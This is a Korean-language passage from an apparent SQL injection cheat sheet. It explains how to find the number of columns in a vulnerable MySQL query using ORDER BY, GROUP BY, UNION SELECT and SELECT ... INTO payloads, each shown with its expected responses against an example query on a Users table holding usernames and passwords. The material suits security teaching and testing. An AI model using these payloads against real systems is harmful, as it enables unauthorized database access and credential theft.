 노트 :<br>
일부 운영 체제에서는 MAC 주소 대신 48 비트 임의의 문자열을 반환할 수 있음.<br><br><br>



## (9) 테이블과 컬럼

**① 컬럼 수 결정**<br><br>

ⓐ Order/Group By<br><br>

GROUP/ORDER BY n+1<br><br>

노트 :<br>
거짓 결과값이 출력될 때까지 번호를 계속 증가시킴.<br>
GROUP BY 와 ORDER BY 는 SQL 에서 다른 기능을 가지고 있지만 정확히 같은 방식으로 쿼리 수를 결정할 수 있음.<br><br>
참고로 ORDER BY 절은 조회된 결과의 데이터들을 원하는 필드를 기준으로 정렬하여 보기 좋게 출력하는데 사용되며 GROUP BY 절은 데이터들을 작은 그룹으로 분류하여 그룹에 대한 항목별로 통계적인 정보를 얻고자 사용됨.<br><br>

예 : <br>
`주어진 쿼리 SELECT username, password, permission FROM Users WHERE id = '{INJECTION POINT}';`<br><br>

`1' ORDER BY 1--+&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;참`<br>
`1' ORDER BY 2--+&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;참`<br>
`1' ORDER BY 3--+&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;참`<br>
`1' ORDER BY 4--+&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;거짓 - 쿼리는 3 개의 컬럼만 사용함.`<br>
`-1' UNION SELECT 1,2,3--+&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;참`<br><br>

ⓑ 에러 기반(Error Based)1<br><br>

GROUP/ORDER BY 1,2,3,4,5...<br><br>

노트 :<br>
이전 방법과 마찬가지로 에러 표시가 활성화된 경우 한번의 쿼리 요청으로 컬럼 수를 확인할 수 있음.<br><br>

예 :<br>
`주어진 쿼리 SELECT username, password, permission FROM Users WHERE id = '{INJECTION POINT}'`<br><br>

`1' GROUP BY 1,2,3,4,5--+  그룹 문에서 알 수 없는 열 '4'`<br>
`1' ORDER BY 1,2,3,4,5--+  Order 절에서 알수 없는 열 '4'`<br><br>

ⓒ 에러 기반2<br><br>

SELECT ... INTO var_list, var_list1, var_list2...<br><br>

노트 :<br>
이 방법은 에러 표시가 활성화된 경우 작동함.<br>
주입 지점이 LIMIT 절 다음에 있을 때 컬럼 수를  찾는 데 유용함.<br>

예1 :<br>
`주어진 쿼리 SELECT permission FROM Users WHERE id = {INJECTION POINT};`<br><br>

`-1 UNION SELECT 1 INTO @,@,@&nbsp;&nbsp;사용된 SELECT 문은 다른 컬럼 수를 가짐.<br>
-1 UNION SELECT 1 INTO @,@&nbsp;&nbsp;&nbsp;&nbsp;사용된 SELECT 문은 다른 컬럼 수를 가짐.<br>
-1 UNION SELECT 1 INTO @&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;에러가 없다는 건 컬럼 1개를 사용함을 의미함.`<br><br>
